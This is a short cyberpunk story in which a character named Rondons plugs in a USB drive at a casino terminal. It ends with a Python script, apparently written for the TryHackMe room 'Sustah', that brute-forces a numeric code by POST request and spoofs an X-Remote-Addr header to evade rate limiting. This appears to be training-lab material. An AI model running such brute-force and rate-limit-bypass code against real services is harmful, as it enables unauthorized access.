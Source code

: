 Walking into the casino was almost like walking into an alien world for Rondons. He was not one for public places, so the luxurious gilded walls filled with all manners of people were far from his comfort zone. These were people from the high society of Pullast. All dressed accordingly and with all manner of strange cyberimplants; some more advanced than others.
In his gaze, he nearly went against a waitress, who had to dodge him with a small yelp. - "Uhm oh- sorry." - Muttered Rondons, realizing he was attracting a lot of attention in here. Maybe he should wear less dark clothes when around these places...

\- "Hey!" - A gruff tall guy motioned to the two, stepping closer and closer. Rondons' heart nearly stopped upon seeing this. Had they been found? Dammit! - "Watchdog! Pleasure seeing you around here again mate! What's up?"
\- "Hey Loid! How's it going man!" - Replied Watchdog without skipping a beat with a natural charm and a natural smile. He gave Rondons a smack on the shoulder: - "I'm just showing my friend here the casino!"
\- "Ah I see. You and him just have to come to the corner with me then. I've got a new package of your favourite drinks. You and him are gonna love it!" - Insisted the big man with a grin, pointing to a darker corner of the bar. Rondons notted, unfortunately, that this are contained no eletronics. Crap!
\- "Sure sure! Let me just tell him- " - Rondons felt Watchdog grab his hand, and passing to him a small USB drive in the hidden gesture. A sleight of hand as the jovial hacker added: - "The bathrooms should be on the second floor. And uh- You'll pay me later for that drink eh? Just go there and do what you have to do." 
Rondons understood, though he did stare like a deer in headlights for a moment. He fumbled to put his hands in his pockets, wanting to hide the USB before it was seen. No good, seems like Watchdog would have to stay behind; but now he was already in- and from the man's words... he knew where he could find a terminal.


After a few moments of searching around, Rondons was able to sneak away from the crowds of the lower floor. Soon, he found the terminal that Watchdog had mentioned. A small office that was currently empty. He gazed to the right, then to the left, and entered.
Opening up the terminal, he slipped the USB into the correct port. The file that came up made him smile. That sly dog. Watchdog had prepared a script that would run the brute-force attack for him. This should save some time.

# 
```
# Written by WATCHDOG2000 23/01/2021
# For the Try Hack Me Room 'Sustah'
import requests
import sys
from datetime import datetime

if len(sys.argv) != 2:
	print("[!] - PLEASE ENTER THE URL")
	sys.exit(1)
	
url = sys.argv[1] # url is the first parameter
data = {"number": "SWAPME"} # data we are submitting
custom_headers = {"X-Remote-Addr": "127.0.0.1"} # bypasses the rate elimit from X-RateLimit-limit
lowest = 10000
highest = 99999
start_time = datetime.now() # records the time the script starts, for calculation of how long it has run for.
for i in range(lowest, highest):
	now = datetime.now() # get the current time for runtime of the program
	time_running = now-start_time
	data["number"] = i # set our number to the number to try
	sys.stdout.write(f"\r[*] - TRYING {i} -- RUNNING FOR {str(time_running)} SECONDS -- {str(i - lowest)} REQS IN")
	resp = requests.post(url, data=data, headers=custom_headers) # submit to server, with bypass limit

	if "unlucky" not in resp.text: # we have found the right number!!
		print("\n" + resp.text)
		break
```